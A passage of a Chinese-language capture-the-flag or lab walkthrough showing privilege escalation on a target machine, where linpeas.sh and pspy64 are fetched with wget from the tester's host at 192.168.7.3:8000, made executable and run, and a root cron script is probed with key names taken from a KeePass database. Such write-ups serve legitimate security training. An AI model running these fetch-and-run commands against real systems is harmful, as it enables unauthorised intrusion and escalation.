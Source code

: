 2。靶机下载linpeas.sh脚本

```
wget http://192.168.7.3:8000/linpeas.sh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

3。给linpeas.sh脚本加上可执行权限，并运行

```
`chmod +x linpeas.sh``./linpeas.sh`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

根目录下找到一个名为keyfolder的空文件夹，未检测到可利用的信息，再上传个pspy64检查下，pspy64可以监控系统后台定时运行的程序

### 后台程序运行监控

```
程序项目地址  
https://github.com/DominicBreuker/pspy
```

找到链接让靶机直接下载好pspy64也可以（已下载过不再演示了）

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

下载pspy64文件添加可执行权限，并运行

```
`wget http://192.168.7.3:8000/pspy64``chmod +x pspy64``./pspy64`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现/root/key.sh文件每分钟执行1次，不定时检查keyfolder文件夹内的文件。我们现在看不到key.sh文件内的脚本，猜测是key.sh执行了ls命令检查keyfolder文件夹，既然名字有key那有可能就是密码密钥之类的东西会在里面。他要去检查又是空的，猜测是让我们往里面放文件，并且之前的keepass数据库打开后没有密码但是有一些key文件名，我们试着将key文件名放入文件夹试试，先来看一下有哪些key名

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
2real4surreal  
buddyretard  
closet313  
exalted  
fracturedocean  
zakkwylde
```

一共6个，那我们在keyfolder文件夹中创建这6个文件试试

